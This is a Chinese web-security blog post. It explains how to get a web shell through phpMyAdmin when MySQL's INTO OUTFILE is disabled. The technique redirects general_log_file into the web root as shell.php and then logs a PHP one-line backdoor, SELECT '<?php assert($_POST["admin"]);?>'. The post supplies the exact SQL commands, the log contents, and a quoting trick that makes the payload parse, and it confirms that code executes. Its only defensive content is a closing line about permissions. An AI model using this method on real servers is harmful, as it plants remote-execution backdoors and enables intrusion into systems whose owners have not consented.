 ```yaml
---
title: phpMyAdmin新姿势getshell
layout: post
date: '2017-03-23'
categories: web安全
permalink: "/archivers/2017-03-05/1"
description: 假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？
---
```


假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？
<!--more-->

* 目录
{:toc}


## 0x00 设想

假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？

本文旨在研究新的方法，如果在INTO OUTFILE禁用的情况下，或许会少很多思路了。

这里的禁用是完全（权限）禁用，而不是拦截行为。

## 0x01 常规方法测试

好了，入正题，我目前拥有一台WIN XP虚拟机，上面的服务如下：

* Apache 2.4.23（此环境与本文实现的攻击关系不大）
* PHP 5.4.45（此环境与本文实现的攻击关系不大）
* phpMyAdmin 4.6.6（此环境与本文实现的攻击关系不大）
* MySQL 5.5.53 - MySQL Community Server (GPL) （5.0以上）
* 绝对路径：`C:\phpStu\WWW\`

目前大部分站点都使用了MySQL 5.0以上的版本

我们先尝试一下使用SQL表达式INTO OUTFILE 去getshell：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-92a62b6bce5a6c66aa07dcae86a45b2e_r.jpg)

可以看到已经被阻止了 ，具体原因我们在这里讲一下：

错误提示

```
#1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement.
```
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-103d1faf4ef1790dda328ae855828eb0_hd.jpg)

secure-file-priv这个全局变量是指定文件夹作为导出文件存放的地方，默认情况下，secure-file-priv是一个空值（NULL）。我们现在设置为网站的根目录，再去尝试使用INTO OUTFILE getshell。

但是在我们使用SQL修改的时候，发现这个值是只读的。

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-6120a906737c3c20d87cd3ae4c0f3db5_r.jpg)

经过查阅资料知道，这个值只能通过修改MySQL的配置文件来达到修改的目的。

## 0x02 新姿势测试

这些希望破灭以后我并没有沮丧，我相信这些研究都是有用的，有助于我的思考。

于是把目光转向了MySQL的特性，开始测试MySQL全局变量对MySQL本身的影响。

最后我发现MySQL 5.0+的版本会自动创建日志文件，那么在服务运行的情况下修改全局变量也是可以变动文件位置的，但是必须要对生成日志的目录有可读可写的权限。（Linux环境下可能会比较苛刻，因为站点目录是一个用户，MySQL是另外一个用户，权限管控较为严格，主要取决于权限配置是否得当）

OK，不废话，开始测试~~

首先呢，介绍两个MySQL全局变量（general_log、general_log file）

* general log 指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。
* general log file 指的是日志的保存路径。


我们先查看一下全局变量 ~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-7937fe1a956ff7ef604a1b6a8d0b803d_r.jpg)

目前是OFF状态，也就是不保存SQL到日志文件中。

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-c9c5b6ab51e7f8f55eaac27d3529f189_r.jpg)

这里强调一下保存过程，general_log是保存每一条你执行的SQL到文件中。目前为OFF，所以文件还没有被创建，我们修改为ON尝试让MySQL创建文件：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-905b73ccaab7b944d18b92816250c10d_hd.jpg)

我们去主机上的目录里看看这个文件是否存在：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-edf0809c6bd914d9127e220060f60395_r.jpg)

贴出文件内容：

```
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit
```

目前是没有什么内容的。我们在控制台随便执行一个SQL：

```
SELECT MD5('admin');
```
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e8be82b148faa920ceda19d592820470_hd.jpg)

贴出新的日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit	
170323 18:12:55	   36 Connect	root@localhost on 
		   36 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   36 Init DB	mysql
		   36 Query	SHOW MASTER LOGS
		   36 Quit	
		   37 Connect	root@localhost on 
		   37 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   37 Quit	
170323 18:13:21	   38 Connect	root@localhost on 
		   38 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   38 Query	SELECT MD5('admin')
		   38 Quit

```
可以清除的发现，日志文件同步保存了我们所有的SQL语句……猥琐的思路从脑海中喷发而出~ 我们要在站点目录下使用MySQL的日志功能创建一个shell.php

首先查看目录中不存在shell.php这个文件：
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-f7cdabc60f3f39b2ca25a3f486bb23b4_r.jpg)

（确保general_log 的值已经为ON，前面已经设置过了）然后设置general_log_file的值为我们一句话木马的绝对路径：

```sql
SET global general_log_file='C:/phpStu/WWW/shell.php';
```

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-66414717c8f4be26b9af449ab2634c06_r.jpg)

我们再去看看站点下是否创建了这个文件：



![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e8273a7d3fdc1fbb990d8f911d17b5b9_r.jpg)


创建成功，并且文件内容中也有日志的初始值。

我们现在写入一句话~ 强调一下，SQL就是SQL，在保存到日志中的时候不会解析转译符号，不知道大家能否理解，我举一个例子：

我们查询：

```
SELECT '<?php assert($_POST[\'admin\']);?>;
```

保存到日志中也会变成

```
SELECT '<?php assert($_POST[\'admin\']);?>';
```
php这边解析的时候就会报错，因此我们采用单引号与双引号公用的方式实现：

```
SELECT '<?php assert($_POST["admin"]);?>';
PS：$_POST中不用引号也可以~
```

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-0ae649932588d176756a432479ff62cf_r.jpg)

我们访问看看~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e5cc5693f6a7e55616cdfa62f605bddc_hd.jpg)

已经解析php了，我们同样测试一下是否能执行php代码吧 ~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-b13043cfb90de8ac7a55aec067901aad_hd.jpg)

贴出日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
		   44 Quit	
170323 18:27:27	   45 Connect	root@localhost on 
		   45 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   45 Init DB	mysql
		   45 Query	SHOW MASTER LOGS
170323 18:27:28	   45 Quit	
		   46 Connect	root@localhost on 
		   46 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   46 Quit	
170323 18:28:01	   47 Connect	root@localhost on 
		   47 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   47 Query	SELECT '<?php assert($_POST["admin"]);?>'
		   47 Quit	
```

## 0x03 总结

在权限把控不严谨的情况下容易出现此类攻击，如果MySQL没有权限在站点根目录下创建文件的话也就不会发生这样的情况了。

修复方案就是权限把控好就可以了 ~
